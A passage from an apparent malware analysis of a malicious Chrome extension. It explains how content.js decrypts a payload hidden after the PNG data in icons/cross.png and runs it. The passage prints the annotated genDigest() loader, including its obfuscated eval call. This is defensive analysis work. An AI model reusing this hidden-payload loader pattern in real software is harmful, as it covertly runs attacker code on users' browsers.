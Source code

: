 > *bg.js* contains various unrelated functions from a forum software called Discuz!. The only functions that will be called are `GRMin()`, and `Enfka()`.

An examination of *icons/cross.png* shows that the first 250 bytes comprise the entirety of the PNG's datastream.

![Imgur](https://i.imgur.com/FrthjNU.png)

### Step 2

*content.js* now decrypts the payload hidden in `cross` with a misleadingly-named function, transforming it into *1.js*.

[***install/content.js***](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Unzipped/2.3.0%20-%20%7B0aa583da-e323-42f2-b4d2-0bc61b493171%7D/install/content.js): [genDigest()](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Unzipped/2.3.0%20-%20%7B0aa583da-e323-42f2-b4d2-0bc61b493171%7D/install/content.js#L230)

```javascript
// RAIN: This function attemps to look like a function that generates a SHA1 digest.
function genDigest(b) {
  // RAIN: Attempt at obfuscation, this pattern is used throughout the code
  var sha1;
  var hashmap = _ => Object.keys(sha1);
  sha1 = {
    eate: document.querySelectorAll('*'),
    e: 1,
    lav: 5,
    tob: 'xl=',
    color: setcolor = 1,
    YW: a => hashmap()[2].split('').reverse().join('')  // RAIN: Returns "val"
  };
  chrome.storage.local.get(null, function(a) {
    if (a = a[b]) {
      a = sendtoArray(a);  // RAIN: Decrypt
      var d = a.indexOf("bytearray") + 9;
      a = a.substring(d);

      // RAIN: Obfuscation of this[eval](a)
      // This effectively calls eval() on the contents of 1.js
      this[hashmap()[1]+sha1.YW()](a);
    }
  })
}
genDigest('cross');
```

[***install/content.js***](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Unzipped/2.3.0%20-%20%7B0aa583da-e323-42f2-b4d2-0bc61b493171%7D/install/content.js): [toArray()](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Unzipped/2.3.0%20-%20%7B0aa583da-e323-42f2-b4d2-0bc61b493171%7D/install/content.js#L212), [keyCharAt()](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Unzipped/2.3.0%20-%20%7B0aa583da-e323-42f2-b4d2-0bc61b493171%7D/install/content.js#L217), [mapKey()](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Unzipped/2.3.0%20-%20%7B0aa583da-e323-42f2-b4d2-0bc61b493171%7D/install/content.js#L220), [sendToArray()](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Unzipped/2.3.0%20-%20%7B0aa583da-e323-42f2-b4d2-0bc61b493171%7D/install/content.js#L224)
